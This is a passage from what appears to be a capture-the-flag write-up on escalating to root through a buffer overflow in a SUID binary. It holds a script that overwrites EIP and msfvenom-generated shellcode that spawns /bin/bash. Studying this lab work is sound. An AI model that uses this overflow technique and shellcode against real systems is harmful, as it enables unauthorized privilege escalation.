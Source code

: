 At this point, I needed to take control over EIP, so I wrote the following program to keep track of my progress:

```python
import struct
import sys

buf_len = 112
eip = struct.pack("<I", 0xdeadbeef)
buf = b'A' * buf_len
buf += eip
sys.stdout.buffer.write(buf)
```

I then ran the program in gdb/gef like the following:

![](./images/october-control-eip-crash-offset.png)

Excellent! I was able to control the EIP register! At this point, I needed to put some shellcode in the buffer to spawn a shell and put it into the buffer. I used `msfvenom` to do this for me.

```none
$ msfvenom -a x86 --platform linux -p linux/x86/exec CMD=/bin/bash -f python -b '\x00'
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 72 (iteration=0)
x86/shikata_ga_nai chosen with final size 72
Payload size: 72 bytes
Final size of python file: 365 bytes
buf =  b""
buf += b"\xdb\xd9\xd9\x74\x24\xf4\x5b\x29\xc9\xb1\x0c\xba\x17"
buf += b"\xa5\x80\x35\x31\x53\x18\x03\x53\x18\x83\xeb\xeb\x47"
buf += b"\x75\x5f\x18\xd0\xef\xf2\x78\x88\x22\x90\x0d\xaf\x55"
buf += b"\x79\x7e\x58\xa6\xed\xaf\xfa\xcf\x83\x26\x19\x5d\xb4"
buf += b"\x32\xde\x62\x44\x6d\xbc\x0b\x2a\x5e\x22\xad\xc1\xc8"
buf += b"\xa2\x7a\x75\x81\x42\x49\xf9"
```

Note that I needed to encode the null byte because it is a bad character for stdin which is how the payload will be delivered to the vulnerable root SUID program.
